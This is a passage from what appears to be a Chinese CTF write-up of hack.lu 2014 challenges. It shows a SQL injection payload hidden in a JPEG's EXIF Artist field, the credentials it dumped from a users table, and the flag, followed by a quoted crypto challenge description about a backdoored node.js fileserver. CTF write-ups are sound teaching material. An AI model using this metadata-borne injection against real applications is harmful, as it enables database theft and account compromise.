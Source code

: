 于是后来玩了一下，用 exiftool。

最终的 payload 图片的部分 exif 信息

```
DeAdCaT-2:hack.lu2014 DeAdCaT___$ exiftool test.jpg
ExifTool Version Number         : 9.60
File Name                       : test.jpg
Directory                       : .
File Size                       : 7.2 kB
Artist                          : asd','nidaye',(select group_concat(id,0x3a,name,0x3a,password) from users)) #

```

在 Model 处出现数据：

```
1:sheriff:AO7eikkOCucCFJOyyaaQ,2:deputy:testpw

```

然后 Login，获得 fLag。

```
You are sucessfully logged in.
Flag: flag{1_5h07_7h3_5h3r1ff} 
```

## 0x02 Crypto 150 Hidden in ρlaιn sιght

* * *

> Category: Crypto
> 
> Points: 150
> 
> Author: TheJH
> 
> Description: At our software development company, one of the top developers left in anger. He told us that he had hidden a backdoor in our node.js server application — he thinks that we can’t find it even if we try. I have attached the source code of our fileserver. After registration, you can log in, upload files and create access tokens for your files that others can use to retrieve them. He must have added some way to retrieve files without permission. And we don’t have version control, so we can’t just check his last commits. We have read the source code multiple times, but just can’t figure out how he did it. Maybe he just lied? Can you help us and demonstrate how the backdoor works? We have uploaded a file to testuser/files/flag.txt – please try to retrieve it. Connect to https://wildwildweb.fluxfingers.net:1409/. Note that all your files will be purged every 5 minutes. You can download the service code here: Download

一开始以为是密码题，后来发现是隐写。。。。（机智的 lym

一个图片说明问题：

![enter image description here](img/img2_u84_jpg.jpg)
